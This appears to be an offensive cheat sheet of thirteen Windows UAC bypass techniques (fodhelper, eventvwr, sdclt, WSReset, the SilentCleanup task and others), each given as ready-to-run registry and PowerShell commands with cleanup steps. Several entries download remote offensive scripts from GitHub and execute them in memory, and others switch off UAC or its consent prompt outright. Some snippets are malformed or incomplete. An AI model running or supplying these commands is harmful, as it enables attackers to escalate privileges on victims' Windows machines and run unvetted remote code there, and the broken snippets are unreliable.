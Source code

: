 
Generally speaking, most of the bypass techniques rely on us being able to leverage a High IL process to execute something on our behalf. Since any process created by a High IL parent process will inherit the same integrity level, this will be enough to get an elevated token without requiring us to go through the UACprompt. A feature called **AutoElevate** allows specific binaries to elevate without requiring user's interaction.  


#### Command to check if UAC is enabled :
```python
reg query hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Output :
```ruby
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```
 UAC is enabled 


```ruby
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x0
```
UAC is Disabled 

## 1.Bypass using event viewer
```powershell
set CMD="Command or Binary to be run"

reg.exe add "hkcu\software\classes\.pwn\shell\open\command" /ve /d %CMD% /f

reg.exe add "hkcu\software\classes\mscfile\CurVer" /d ".pwn" / 

cmd.exe /c eventvwr.msc
```


#### Clearup Command:
```powershell
reg.exe delete hkcu\software\classes\mscfile /f >nul 2>&1
```


## 2. Bypass UAC using fodHelper

fodhelper tries to open a file under the ms-settings ProgID. By creating an association for that ProgID in the current user's context under HKCU, we will override the default system-wide association and, therefore, control which command is used to open the file. Since fodhelper is an autoElevate executable, any subprocess it spawns will inherit a high integrity token, effectively bypassing UAC.
```powershell
set CMD="C:\Windows\System32\calc.exe"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d "C:\Windows\System32\cmd.exe" /f



cmd.exe /c fodhelper.exe
```



#### Clearup Command :
```powershell
reg.exe delete hkcu\software\classes\ms-settings /f >nul 2>&1

reg.exe delete hkcu\software\classes\.thm /f >nul 2>&1
```



## 3. Bypass UAC using ComputerDefaults
```powershell
New-Item  -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```


#### Clearup Command:
```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```



## 4. Bypass UAC by mocking trusted directories:
```powershell
mkdir "\\?\C:\Windows \System32\"
copy "#{executable_binary}" "\\?\C:\Windows \System32\mmc.exe"
mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"

```

#### Clearup command:
```powershell
rd "\\?\C:\Windows \" /S /Q >nul 2>nul
```




## 5.Bypass UAC using sdclt DelegateExecute
```powershell
New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value '#{command_to_execute}'
New-ItemProperty -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute"
Start-Process -FilePath $env:windir\system32\sdclt.exe
Start-Sleep -s 3
```


#### Clearup Command:
```powershell
Remove-Item -Path "HKCU:\Software\Classes\Folder" -Recurse -Force -ErrorAction Ignore
```



## 6.  Disable UAC using reg.exe
```powershell
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```


#### Clearup Command :
```powershell
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```




## 7. UAC Bypass with WSReset Registry Modification
```powershell
New-Item #{commandpath} -Force | Out-Null
New-ItemProperty -Path #{commandpath} -Name "DelegateExecute" -Value "" -Force | Out-Null
Set-ItemProperty -Path #{commandpath} -Name "(default)" -Value "#{commandtorun}" -Force -ErrorAction SilentlyContinue | Out-Null
$Process = Start-Process -FilePath "C:\Windows\System32\WSReset.exe" -WindowStyle Hidden
```



#### Clearup Command :
```powershell
Remove-Item #{commandpath} -Recurse -Force
```


## 8. Disable UAC admin consent prompt via setting ConsentPromptBehaviourAdmin registry key to 0
```powershell
$orgValue =(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin).ConsentPromptBehaviorAdmin
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0 -Type Dword -Force
```



#### Clearup Command :
```powershell
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value $orgValue -Type Dword -Force
```



## 9. Bypass UAC with DccwBypassUAC technique
```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/obfuscatedps/dccuac.ps1')
```



## 10. winpwn - UAC Bypass disk cleanup technique 
```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "C:\windows\system32\cmd.exe" -technique DiskCleanup
```



 
## 11. winpwn - UAC Magic
```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "C:\windows\system32\cmd.exe" -technique magic
```





## 12. Winpwn - UAC Bypass ccmstp technique
```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "<malicious command>" -technique ccmstp
```



## 13. UAC Bypass using Disk Cleanup Scheduled Task.
```powershell
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c calc.exe &REM " /f

schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```


#### Clearup Command:

```batch
reg delete "HKCU\Environment" /v "windir" /f
```

## Automation :


[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
